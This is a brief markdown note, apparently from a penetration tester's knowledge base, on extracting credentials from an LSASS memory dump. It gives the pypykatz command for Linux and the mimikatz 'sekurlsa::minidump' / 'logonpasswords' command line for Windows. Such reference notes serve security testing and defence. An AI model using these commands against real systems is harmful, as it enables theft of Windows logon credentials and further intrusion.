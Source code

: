```yaml
---
title: LSASS Dump Extraction
---
```


With [[notes/tools/pypykatz]] on Linux.

~~~ bash
pypykatz lsa minidump ./lsass.dmp
~~~

With [[notes/tools/mimikatz]] on Windows.

~~~ cmd
.\mimikatz.exe "sekurlsa::minidump lsass.dmp" sekurlsa::logonpasswords exit
~~~
